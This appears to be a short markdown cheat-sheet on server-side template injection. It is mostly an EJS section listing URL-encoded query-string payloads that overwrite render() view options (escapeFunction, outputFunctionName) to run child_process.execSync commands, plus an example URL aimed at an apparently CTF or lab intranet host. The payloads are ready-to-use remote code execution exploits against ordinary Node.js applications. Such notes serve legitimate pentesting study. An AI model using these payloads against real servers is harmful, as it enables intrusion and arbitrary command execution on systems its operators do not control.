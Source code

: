 
# Server side template injection

## Python

SSTI are often due to a Flask application misconfiguration



## EJS (Embedded Javascript Template)

A misconfiguration in the `render()` method allows users to overwrite some configuration values and execute code by adding a `setting` parameter in the get url.

https://eslam.io/posts/ejs-server-side-template-injection-rce/

- settings[view%20options][client]=true
- settings[view%20options][escapeFunction]=1;return%20global.process.mainModule.constructor._load(%27child_process%27).execSync(%27ls%27);

**Payload example**
```
https://magistral-intranet.casinolimit.bzh/balances/search?q=camille&settings[view%20options][client]=true&settings[view%20options][escapeFunction]=1;return%20global.process.mainModule.constructor._load(%27child_process%27).execSync(%27ls%27);
```

**Payloads**
```
settings[view%20options][client]=true&settings[view%20options][escapeFunction]=1;return%20global.process.mainModule.constructor._load(%27child_process%27).execSync(%27ls%27);
settings[view%20options][escapeFunction]=console.log;this.global.process.mainModule.require(%27child_process%27).execSync("ls");&settings[view%20options][client]=true
settings[view options][outputFunctionName]=x;process.mainmodule.require('child_process').execSync('ls'));s
```

